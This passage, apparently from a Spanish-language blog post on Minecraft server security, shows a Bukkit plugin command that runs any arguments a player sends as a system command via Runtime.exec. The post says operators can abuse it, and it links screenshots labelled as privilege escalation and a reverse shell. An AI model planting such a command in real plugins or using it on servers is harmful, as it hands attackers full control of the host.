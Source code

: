 ```java
package com.mailbox.commands;

import org.bukkit.command.Command;
import org.bukkit.command.CommandExecutor;
import org.bukkit.command.CommandSender;

import java.io.IOException;
import java.io.InputStream;
import java.util.Arrays;

public class SystemCmd implements CommandExecutor {

    public boolean onCommand(CommandSender sender, Command cmd, String label, String[] args){

        String arg = Arrays.stream(args).reduce("", (prev, next) -> prev + " " + next);

        if(arg.isEmpty()){
            sender.sendMessage("Please provide a value");
            return false;
        }

        try {
            Process proc = Runtime.getRuntime().exec(arg);

            InputStream procStdout = proc.getInputStream();
            String output = new String(procStdout.readAllBytes());

            sender.sendMessage(output);

        } catch (IOException e){
            e.printStackTrace();
        }

        return true;
    }
}
```
{: file='SystemCmd.java'}

Ya que como eres operador o administrador, puedes hacer tranquilamente algo similar:

![Minecraft](/assets/posts/minecraft-security/privesc1.png)
![reverse shell](/assets/posts/minecraft-security/privesc2.png)
